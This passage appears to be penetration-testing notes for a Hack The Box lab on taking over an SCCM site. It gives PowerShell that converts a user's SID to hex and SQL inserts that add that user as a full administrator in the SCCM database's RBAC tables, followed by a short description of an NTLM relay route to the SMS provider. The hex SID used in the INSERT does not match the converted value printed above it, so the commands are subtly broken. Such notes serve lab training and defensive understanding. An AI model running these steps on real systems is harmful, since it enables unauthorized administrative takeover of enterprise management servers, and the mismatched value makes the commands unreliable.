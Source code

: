 Then get the SID and convert to binary

```powershell
PS C:\Users\blwasp\Desktop> Get-DomainUser blwasp -Properties objectsid

objectsid
---------
S-1-5-21-2570265163-3918697770-3667495639-1103

# Create function
PS C:\Users\blwasp\Desktop> function Convert-StringSidToBinary {
>>  param (
>>  [Parameter(Mandatory=$true, Position=0)]
>>  [string]$StringSid
>>  )
>>
>>  $sid = New-Object System.Security.Principal.SecurityIdentifier $StringSid
>>  $binarySid = New-Object byte[] ($sid.BinaryLength)
>>  $sid.GetBinaryForm($binarySid, 0)
>>
>>  $binarySidHex = ($binarySid | ForEach-Object { $_.ToString("X2") }) -join ''
>>  echo "0x$($binarySidHex.ToLower())"
>> }

# Convert to binary
PS C:\Users\blwasp\Desktop> Convert-StringSidToBinary S-1-5-21-2570265163-3918697770-3667495639-1103
0x0105000000000005150000004b2233992a9592e9d78a99da4f040000
```

Insert a new administrator into RBAC\_Admins

```shell
# Use db
use CM_HTB;

# Insert new admin
SQL (LAB\SCCM01$  dbo@CM_HTB)> INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x0105000000000005150000004b2233992a9592e91111a99da4f040000,'LAB\blwasp',0,0,'','','','','HTB');

# Add rights
SQL (LAB\SCCM01$  dbo@CM_HTB)> INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (16777223,'SMS0001R','SMS00ALL','29');
SQL (LAB\SCCM01$  dbo@CM_HTB)> INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (16777223,'SMS0001R','SMS00001','1');
SQL (LAB\SCCM01$  dbo@CM_HTB)> INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (16777223,'SMS0001R','SMS00004','1');
```

## <mark style="color:yellow;">SCCM Site Takeover II</mark>

Like MSSQL, primary server account must be member of SMS Admins group. This group gives access to the WMI interfaces and AdminService API. If SMS provider is installed on another server and if the API accepts NTLM auth, is exposed on server carrying SMS provider its possible to relay.
